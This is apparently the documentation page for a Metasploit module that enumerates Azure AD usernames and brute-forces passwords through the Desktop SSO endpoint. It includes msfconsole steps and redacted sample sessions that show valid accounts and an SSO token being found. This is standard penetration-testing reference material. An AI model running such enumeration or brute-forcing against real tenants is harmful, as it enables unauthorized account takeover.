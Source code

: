 ## Vulnerable Application

The Microsoft Azure AD SSO service has a vulnerable endpoint that delivers an error-code based
response to specific authentication requests in XML. The endpoint, when passed the correct
credentials, will respond with a DesktopSsoToken that can be used to authenticate to Azure AD.
When the authentication is unsuccessful, the error code that is returned can be used to discover
the validity of usernames in the target tenant.
This module also reports credentials to the credentials database when they are discovered.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/azure_ad_login`
- [ ] `show info`
- [ ] `set USER_FILE USER_FILE`
- [ ] `set PASS_FILE PASS_FILE`
- [ ] `set DOMAIN example.com`
- [ ] `run`
- [ ] Check output for validity of your test username(s), and password(s)


## Options

### DOMAIN

The target tenant domain to use for the username checks.

### USERNAME

A specific username to verify.

### PASSWORD

A specific password to verify.

### USER_FILE

A file with users, one per line.

### PASS_FILE

A file with passwords, one per line.
    

## Scenarios

### Azure AD Tenants with SSO Enabled
If a tenant's domain is known, you can use this module for username and password brute-forcing.

Specific target output replaced with *s so as not to disclose information

```
msf > use auxiliary/scanner/http/azure_ad_login
msf auxiliary(scanner/http/azure_ad_login) > set USER_FILE /home/kali/users.txt
USER_FILE => /home/kali/users.txt
msf auxiliary(scanner/http/azure_ad_login) > set PASS_FILE /home/kali/pass.txt
PASS_FILE => /home/kali/pass.txt
msf auxiliary(scanner/http/azure_ad_login) > set DOMAIN example.com
DOMAIN => example.com
msf auxiliary(scanner/http/azure_ad_login) > run

msf auxiliary(scanner/http/azure_ad_login) > run

[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[+] Password Password1! is invalid but example.com\**** is valid!
[+] Login example.com\****:****** is valid!
[+] Desktop SSO Token: *******************************************
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

If a tenant's domain is known, you can enumerate their usernames
    
```
msf > use auxiliary/scanner/http/azure_ad_login
msf auxiliary(scanner/http/azure_ad_login) > set USER_FILE /home/kali/users.txt
USER_FILE => /home/kali/users.txt
msf auxiliary(scanner/http/azure_ad_login) > set PASSWORD password
PASSWORD => password
msf auxiliary(scanner/http/azure_ad_login) > set DOMAIN example.com
DOMAIN => example.com
msf auxiliary(scanner/http/azure_ad_login) > run

[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
